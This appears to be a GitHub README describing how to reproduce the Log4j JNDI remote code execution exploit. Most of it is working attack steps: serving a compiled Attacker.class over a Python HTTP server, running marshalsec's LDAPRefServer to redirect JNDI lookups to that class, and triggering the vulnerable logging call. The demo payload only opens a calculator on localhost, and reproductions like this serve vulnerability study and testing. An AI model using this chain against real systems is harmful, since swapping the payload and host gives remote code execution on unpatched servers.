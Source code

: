 # log4j RCE 0-day exploit reproduce

[中文](https://github.com/Cyronlee/log4j-rce/blob/main/README-zh.md)

## Prepare

The `remote/Attacker.class` is already compiled with `Java 1.8.0_292`.

You can use `javac Attacker.java` to compile it if you're using another version.

## Reproduce Steps

Total of 3 processes are required to reproduce it. 

If Successfully triggered, 

The console will print `Constructor` and the calculator will be opened automatically.

### 1 Attacker service

Use `python` to host `Attacker.class` file:

```
cd remote

python -m http.server 8888
```

### 2 jndi forwarding

Use the `marshalsec` tool to forward jndi requests to the attacker's service:

```
git clone git@github.com:mbechler/marshalsec.git

cd marshalsec

mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Attacker"
```

### 3 Trigger

Use the command line or IDE to run `src/main/java/LogService.java`
